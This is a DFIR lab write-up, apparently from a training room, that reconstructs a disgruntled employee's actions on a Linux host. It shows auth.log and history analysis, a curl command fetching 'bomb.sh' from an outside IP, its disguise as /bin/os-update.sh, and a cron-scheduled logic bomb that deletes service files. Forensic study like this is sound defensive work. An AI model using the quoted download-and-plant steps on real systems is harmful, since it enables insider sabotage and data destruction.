






# 📝 Case Study: Disgruntled (DFIR)

## 🔹 Overview
This investigation examines activity from a compromised workstation used by a disgruntled employee.  
The goal was to determine what the user did on the host, identify malicious artifacts (a logic bomb), and confirm exfiltration or destructive actions.

**Skills demonstrated:**
- Linux log analysis (`/var/log/auth.log`)
- Command history and file-system forensics
- Jumplist / editor history interpretation
- Crontab analysis for scheduled malicious actions
- Reconstructing attacker intent and timeline

---

## 🔍 Key Activities & Highlights

### 1. Review sudo / install activity
- Searched the authentication log for install actions:
```bash
cd /var/log
cat auth.log | grep install
## Findings
- **Full command executed with sudo:**  
  `/usr/bin/apt install dokuwiki`
- **Present Working Directory when command ran:**  
  `/home/cybert`



---

### 2. User creation and sudo grant
- Searched `auth.log` for user creation and sudo updates:
```bash
cat auth.log | grep adduser
cat auth.log | grep sudo
## Findings
- User created: it-admin
- sudoers file updated at: Dec 28 06:27:34

 

---

### 3. Script activity and editor history
- Inspected auth.log and editor artifacts to find edited script:
cat auth.log
## Findings:
- Script opened with vi: bomb.sh



---

### 4. Download and creation of the malicious script
Reviewed .bash_history of the user (it-admin) and other artifacts.
## Findings:
- Command used to fetch the script:
- curl 10.10.158.38:8080/bomb.sh --output bomb.sh
- Script renamed/moved to: /bin/os-update.sh
- Last modified time: Dec 28 06:29

 

---

### 5. Script contents and payload
- Opened the malicious script to inspect behavior:
nano /bin/os-update.sh

## Findings:
- Script creates a file: goodbye.txt
- Contains logic to delete files of the installed service if last login > 30 days → logic bomb.



---

### 6. Scheduling — crontab analysis
- Checked scheduled tasks to find when the logic bomb would execute:
crontab -l
## Findings:
- Malicious task scheduled to run at: 08:00 AM



### Conclusion

- Attacker installed dokuwiki using sudo from /home/cybert.
- Created new user it-admin, later granted sudo privileges.
- Downloaded bomb.sh, renamed it to /bin/os-update.sh, and modified it on Dec 28 06:29.
- Script payload creates goodbye.txt and performs destructive actions.
- Cron job scheduled execution of the malicious script at 08:00 AM → timed destructive logic bomb.

### Recommendations / Lessons Learned

- Enforce least privilege and review sudo grants promptly.
- Monitor auth.log for user creation and privilege escalation.
- Deploy File Integrity Monitoring (FIM) to detect suspicious files under /bin.
- Restrict or monitor curl/wget usage on sensitive hosts.
- Implement scheduled task monitoring (cron/systemd).
- Audit user shell histories and editor artifacts regularly.

---

## 🔗 Navigation
- Back to [DFIR Home](../DFIR/README.md)
